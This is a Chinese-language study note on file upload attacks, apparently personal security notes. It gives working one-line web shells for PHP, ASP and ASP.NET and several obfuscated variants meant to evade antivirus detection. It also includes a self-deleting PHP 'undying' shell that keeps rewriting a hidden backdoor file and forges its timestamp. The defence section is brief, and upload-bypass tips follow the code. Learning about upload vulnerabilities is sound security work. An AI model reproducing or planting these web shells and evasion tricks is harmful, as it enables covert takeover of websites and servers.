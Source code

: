 # 文件上传攻击

## 概述

文件上传是一个非常常见的功能，但如果服务器端不对客户端上传的文件进行严格的验证和过滤，就容易造成可以上传任意文件的情况，包括脚本文件

## 一句话木马

本质是一个只有一句话的脚本、网页或可执行程序，通过执行该脚本文件，攻击者可以控制整个网站甚至是服务器，也被称为一种网页后门

- 需要能成功上传到服务器上
- 需要知道木马上传到服务器后的路径
- 上传的木马能够被解析执行

| 常见脚本类型 | 代码                                                         |
| ------------ | ------------------------------------------------------------ |
| PHP          | `<?php @eval($_REQUEST["xxx"]); ?>`                          |
| ASP          | `<%eval request("xxx") %>`                                   |
| ASP.Net      | `<%@ Page Language="Jscript"%> <%eval(Request.Item["xxx"], "unsafe");%>` |

### 免杀方法

#### 隐藏关键字

- 绕过php代码标识<?的限制 - `<script language="php">@eval($_REQUEST['xxx'])</script>`

- 拆分拼接

  ```php
  <?php
  	$arr = explode(",", "a,s,d,f,s,d,e,k,r,t");
  	$payload = $arr[0] . $arr[1] . $arr[4] . $arr[6] . $arr[8] . $arr[9];  // 拼接成assert
  	// php版本要求: <=7.1
  	@$payload($_REQUEST['xxx']);  // 此处不支持eval，因为eval是PHP的关键字，不能使用变量函数
  ?>
  ```

- 编码

  ```php
  <?php
  	$a = base64_decode("YXNzZXJ0");  // 解assert的base64编码
  	@$a($_REQUEST['xxx']);  // 同样不支持eval
  ?>
  ```

- 可变函数

  ```php
  <?php
  	@$_REQUEST['e']($_REQUEST['xxx']);  // 传入e=assert&xxx=command	
  ?>
  ```

- 可变变量

  ```php
  <?php
  	$a = "assert";
  	$b = "a";
  	$$b($_REQUEST['xxx']);  // 转换成assert['xxx'];
  ?>
  ```

#### 使用回调函数

回调函数 - 将函数名和对应的参数传入回调函数中，PHP会自动调用传入的函数，可以使用任何的内置函数

- `call_user_func($_REQUEST['func'], $REQUEST['param']);`

### 常见PHP函数

- echo - 返回结果的最后一行，搭配其他函数使用
- 执行函数
  - eval() - 执行PHP代码函数，不支持变量函数
  - assert() - 执行PHP代码函数，PHP 7.1之后不支持
  - system() - 执行系统命令并显示输出
  - passthru() - 执行系统命令并显示原始输出
  - exec() - 执行系统命令，但不输出结果，echo返回结果的最后一行
  - shell_exec() - 通过shell环境秩序命令，需要echo
- 文件操作
  - file_get_contents() - 读入文件内容作为字符串
  - file() - 将整个文件读入一个数组中
  - readfile() - 读取一个文件，并写入到输出缓冲中
- 遍历目录
  - scandir() - 返回一个指定目录中的文件和目录的数组
- 包含函数
  - require()和include()
- 特殊函数
  - phpinfo() - 查看PHP信息
  - parse_str() - 变量覆盖

### 不死马

即内存马，无文件，但程序会永久的运行在PHP进程中，无限执行

通过执行多个函数来使自身成为不死马

1. ignore_user_abort(true) - 设置客户机断开后继续运行脚本
2. set_time_limit(0) - 设置脚本最大执行时间，设置0表示没有限制
3. `unlink(__FILE__)` - 将文件本身删除，用于隐藏自身
4. usleep() - 延迟执行当前脚本若干微秒

```php
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = "./.index.php";
$code = "<?php @eval($_POST[\"cmd\"]) \n?>";
while(1) {
    file_put_contents($file, $code);  // 在死循环中不断将代码写入文件中
    system("touch -m -d \"2018-12-01 09:10:12\" .index.php");  // 设置文件最后修改时间，防止被检测
    usleep(5000);
}
```

## 攻击方法

### 低安全

不进行任何检测

### 中安全

只在前端进行检测，使用JS可以对文件的扩展名进行检测，Content-Type也可以进行判断文件类型，

但通过BurpSuite拦截并对请求进行修改，可以继续上传

### 高安全

在中安全的基础上，在后端也进行检测

- 尝试使用图片木马搭配文件包含漏洞一起执行
- 配合Web服务器的后缀解析漏洞来绕过检测
  - Apache服务器是从右向左解析文件后缀的，如果最右侧的后缀不可识别，就继续向左判断，直到遇到可解析的后缀为止

### 最终安全

在高安全的基础上，部署WAF以及经常对代码进行审计

## 防御手段

- 使用白名单的方式判断文件后缀是否合法
- 对上传后的文件进行重命名

# 文件下载攻击

# 文件包含攻击